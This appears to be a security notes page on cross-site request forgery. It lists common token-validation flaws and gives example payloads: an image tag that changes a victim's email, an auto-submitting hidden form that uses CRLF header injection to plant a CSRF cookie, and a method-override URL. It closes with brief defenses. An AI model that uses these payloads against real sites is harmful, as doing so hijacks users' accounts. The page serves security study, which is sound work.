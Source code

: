 ```yaml
---
description: Let users who visit the website to perform actions they aren't supposed to do.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# CSRF

Client side request forgery allows an attacker to induce users to perform actions that they do not intend to perform.

## <mark style="color:red;">Deliver a CSRF Exploit</mark>

### <mark style="color:yellow;">**Reflected XSS**</mark>

Attacker will place the malicious HTML onto a web site that they control.

### <mark style="color:yellow;">GET method</mark>

#### <mark style="color:purple;">**Example:**</mark>

```html
<img src="https://vulnerable-website.com/email/change?email=attacker@evil-user.net"> 
```

## <mark style="color:red;">Common CSRF vulnerabilities</mark>

* Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.
* Some applications correctly validate the token when it is present but skip the validation if the token is omitted.
* Some applications do not validate that the token belongs to the same session as the user who is making the request.
* Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions.

#### <mark style="color:purple;">**Example:**</mark>

```html
<html>
  <body>
    <form action="https://vul-site.com/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;yahoo&#46;com" />
      <input type="hidden" name="csrf" value="jyLqs10iSdsMQz1S5jqucMF55ZyDRyQL" />
      <input type="submit" value="Submit request" />
    </form>
     <img src="http://vul-site.com/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"> 
  </body>
</html>
```

* Some applications do not maintain any server-side record of tokens that have been issued.
* Cookie **SomeSite=Lax** bypass via method override.&#x20;
* Change **POST** method to **Get** with **"\_method"** parameter.&#x20;

#### <mark style="color:purple;">Example:</mark>

&#x20;`/change-email?email=attacker@attack.net&_method=POST`

## <mark style="color:red;">Defenses</mark>

* [x] CSRF tokens.
* [x] HTTP cookie header (CSRF-key).
* [x] Captcha.
* [x] HTTP Referrer header.

